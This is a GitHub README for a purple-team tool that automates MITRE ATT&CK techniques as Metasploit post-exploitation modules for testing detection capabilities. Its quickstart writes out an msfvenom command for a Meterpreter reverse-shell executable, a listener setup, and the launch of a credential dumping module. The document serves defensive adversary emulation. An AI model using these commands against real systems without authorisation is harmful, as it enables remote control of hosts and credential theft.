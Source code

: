 # Purple Team ATT&CK&trade; Automation

At Praetorian, we were seeking a way to automatically emulate adversary tactics in order to evaluate detection and response capabilities. Our solution implements MITRE ATT&CK&trade; TTPs as Metasploit Framework `post` modules. As of this release, we've automated a little over 100 TTPs as modules.

Metasploit's advantage is its robust library, capability to interact with operating system APIs, and its flexible license. In addition, we're able to emulate the features of other tools such as in-memory .NET execution via leveraging Metasploit's `execute_powershell` functionality. This allows Blue Teams to ensure that their tools are alerting on the actual TTP behavior and not execution artifacts (such as encoded PowerShell).

Our solution is built on top of the latest version of Metasploit as of 09Apr2019 (pulled from: https://github.com/rapid7/metasploit-framework). We’ve made minor modifications to Metasploit’s code base to enable some of the automation. Everything should work as intended if you’re already familiar with Metasploit. The magic happens after you establish a Meterpreter session and run a TTP as a post-exploitation module.

We're open sourcing our work because we believe in solving the cybersecurity problem. By giving Blue Teams more tools to emulate adversary behavior, we hope to improve their capabilities and reduce the still very high average dwell time.

## Wiki

For detailed opertional [usage guidance](https://github.com/praetorian-inc/purple-team-attack-automation/wiki/Operational-Setup-and-Usage) and a full [list of modules](https://github.com/praetorian-inc/purple-team-attack-automation/wiki/Available-Modules) and changes, please view the [GitHub Wiki](https://github.com/praetorian-inc/purple-team-attack-automation/wiki).

## Quickstart

Installation should follow the instructions for installing a Metasploit Docker environment:
https://github.com/rapid7/metasploit-framework/tree/master/docker

In general:
 * Install Docker
 * `git clone https://github.com/praetorian-inc/purple-team-attack-automation.git`
 * Edit `./docker-compose.local.override.yml` to reflect the LHOST of your local system similar to below. By default, port 4444 will be forwarded to the docker container. If you want to use other ports, for instance to mirror HTTPS, you'll have to add them to this file.

```
version: '3'
services:
  ms:
    environment:
      # example of setting LHOST
      LHOST: [Your system's IP address]
    # example of adding more ports
    ports:
      - 8080:8080
      - 443:443
```

 * Add / Remove further ports or IP addresses as you see fit. Don't forget to change the LHOST to your own IP address.
 * `docker-compose build`
 * Start the container with `./docker/bin/msfconsole`
 *	Generate a Meterpreter payload:
 ```
 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Attacker IP Address> LPORT=4444 -f exe > meterpreter.exe
 ```
 *	Start and run a local listener: 
 ```
  use exploit/multi/handler
  set PAYLOAD windows/meterpreter/reverse_tcp
  set LHOST <Attacker IP Address>
  set LPORT 4444
  exploit -j -z
  ```
  Copy and run meterpreter.exe on the target (“victim”) host as admin and wait for a session.
*	Run a TTP as a post-exploitation module. The list of modules is provided below. For example, to start the 'Credential Dumping (T1003)’ module, run:  
```
use modules/post/windows/purple/t1003.rb
infoset session 1
run
```

### Meterpreter Payloads

Praetorian recommends you utilize [the nightly installers](https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers) in order to run msfvenom to create your payloads.

### Common Errors

```
ERROR: Couldn't connect to Docker daemon at http+docker://localunixsocket - is it running?
```

Solved by
```
service docker start
```

## Future Work

* Integrate the container into a fork of [DetectionLab](https://github.com/clong/DetectionLab)
* Compare execution of CALDERA and MSF and how artifacts differ so we can improve adversary emulation
* Leverage the [MSFRPCD](https://metasploit.help.rapid7.com/docs/running-metasploit-remotely) to facilitate automatic attack chaining

## Contact

If you're interested in our Purple Team services, [please reach out to us](https://www.praetorian.com/contact).

If you're an engineer looking to join our great team, we have openings at [our careers page](https://www.praetorian.com/company/careers).

## Contributing

See the [Contribution Guide](https://github.com/praetorian-inc/purple-team-attack-automation/blob/master/CONTRIBUTING.md) for a step-by-step guide to making a module.

Also, follow the [Metasploit Framework's general contributing guidelines](https://github.com/rapid7/metasploit-framework/blob/master/CONTRIBUTING.md).

## Acknowledgements

We'd like to thank various members of the security community for providing a lot of the techniques and code that we integrated into this project. 

* [MITRE ATT&CK&trade;](https://attack.mitre.org/) (Obviously)
* [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)
* [@subtee](https://twitter.com/subTee)
* [LOLBAS Project](https://lolbas-project.github.io/)
* [CALDERA](https://github.com/mitre/caldera)

At Praetorian, the following engineers helped contribute modules:
* Josh Abraham `jabra [at] spl0it.org` and [@jabra](https://twitter.com/Jabra)
* Abraham Adberstein
* Tanner Harper
* Thomas Hendrickson [github.com/tomis007](github.com/tomis007)
* George Jouldjian 
* Dallas Kaman
* Blake Luther
* Matt Schneider
* Matthew Verrette
* Daniel Wyleczuk-Stern [@daniel_cybersec](https://twitter.com/Daniel_Cybersec)
